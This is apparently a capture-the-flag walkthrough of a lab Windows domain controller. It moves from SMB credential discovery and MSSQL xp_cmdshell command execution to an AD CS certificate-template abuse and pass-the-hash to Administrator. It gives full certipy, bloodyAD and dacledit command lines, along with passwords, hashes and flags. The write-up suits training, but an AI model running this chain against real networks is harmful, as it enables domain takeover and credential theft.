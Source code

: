 ```yaml
---
sticker: emoji//0032-fe0f-20e3
---
```

# ENUMERATION
---

## OPEN PORTS
---



| IP ADDRESS  |
| ----------- |
| 10.10.11.51 |


| PORT     | SERVICE      |
| -------- | ------------ |
| 53/tcp   | domain       |
| 88/tcp   | kerberos-sec |
| 135/tcp  | msrpc        |
| 139/tcp  | netbios-ssn  |
| 389/tcp  | ldap         |
| 445/tcp  | microsoft-ds |
| 464/tcp  | kpasswd5     |
| 593/tcp  | ncacn_http   |
| 636/tcp  | ssl/ldap     |
| 1433/tcp | ms-sql-s     |
| 3268/tcp | ldap         |
| 3269/tcp | ssl/ldap     |
| 5985/tcp | http         |

We got a lot of open ports, this is a Windows machine, let's start reconnaissance.

# RECONNAISSANCE
---

At first, we are already given some credentials:

```ad-note

`rose`:`KxEPkKe6R8su`
```

We can start with some basic SMB enumeration:

```ad-hint
![](Pasted image 20250114171402.png)
We got a few shares, most interesting one would be `Accounting Deparment` one, let's take a look at it:

![](Pasted image 20250114171518.png)

We have two files, let's download them both and check the contents:

![](Pasted image 20250114172631.png)

Since they are zip files, we need to unzip them and review the contents:

![](Pasted image 20250114172708.png)

After an extensive search, we can see that `xl/sharedStrings.xml` is a file that contains credentials to `mssql`, we can connect using the `mssqlclient.py` script from [impacket](https://github.com/fortra/impacket)
```

# EXPLOITATION
---

Let's connect:

```ad-hint
##### Used
---
`mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51`

![](Pasted image 20250114173718.png)

We can now begin with enumeration, for this, we can use help to check which commands are available:
![](Pasted image 20250114174132.png)

It seems like we can enable some sort of shell, I asked chatgpt about it and it said I must follow these steps:

1. `enable_xp_cmdshell`
2. `RECONFIGURE;`
3. `EXEC xp_cmdshell 'command';`

Once I did that, this happened:

![](Pasted image 20250114174247.png)
We get some sort of `RCE`, let's try to enumerate `C:\` folder:

![](Pasted image 20250114174329.png)
![](Pasted image 20250114174556.png)
We got an user: `ryan`, tried to check the contents but it was empty, we can follow another route, we already know we have a `SQL2019` directory, there must be a SQL configuration file we can read and get some credentials:

![](Pasted image 20250114174929.png)

That's right, let's read the configuration file:

![](Pasted image 20250114174959.png)


We got credentials for another user.
```


```ad-note
`sql_svc`:`WqSZAF6CysDQbGb3`
```


Since we also know the domain is called `SEQUEL`, we can use `evil-winrm` to log in:

![](Pasted image 20250114193709.png)

We are unable to log with those credentials, but remember we have another user, `ryan`, let's try with that username:


![](Pasted image 20250114193750.png)

And we're in, let's read `user.txt`:

```ad-important
![](Pasted image 20250114193939.png)

User: `1c3847c8cc30b9afd12ff6c2bc86f0db`
```

Let's begin PRIVESC.

# PRIVILEGE ESCALATION
---


For privilege escalation, we can use tools like `bloodyAD`, `dacledit.py` and `certipy-ad` (I used Kali Linux in this part), let's follow these steps:

```ad-hint
1. `python3 bloodyAD.py --host DC01.sequel.htb -d SEQUEL.HTB -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan`
2. `dacledit.py -action 'write' -rights 'FullControl' -principal ryan -target ca_svc SEQUEL.HTB/ryan:'WqSZAF6CysDQbGb3'`
3. `certipy-ad shadow auto -u ryan@SEQUEL.HTB -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc`
4. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout`
5. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51`
6. `certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target dc01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@SEQUEL.HTB -ns 10.10.11.51 -dns 10.10.11.51 -debug`
7. `certipy-ad auth -pfx administrator_10.pfx -dc-ip 10.10.11.51`
8. `evil-winrm -i 10.10.11.51 -u 'administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'`
```


So, explanation of this PRIVESC is that we're abusing the CA:

```ad-important
- Identified that the `Certificate Authority (CA)` has a misconfiguration where a vulnerable template called `DunderMifflinAuthentication` is available. This template is part of the certificate services and allows for certain users (like `Domain Admins`) to request certificates with **elevated privileges**.
- The vulnerability identified was that `Cert Publishers` (a group with a dangerous permission set) have access to request certificates. **Cert Publishers** are not typically expected to have these rights, which opens the door for attackers.
```

With this, we are able to obtain a certificate as administrator, thus, obtaining the hash for Admin user, making us able to perform [Pass the hash](https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack)
Like that, we can read root flag:

![](Pasted image 20250115141448.png)

```ad-important
Root: `63404c844597a9eef0c7a440b65564a3`
```

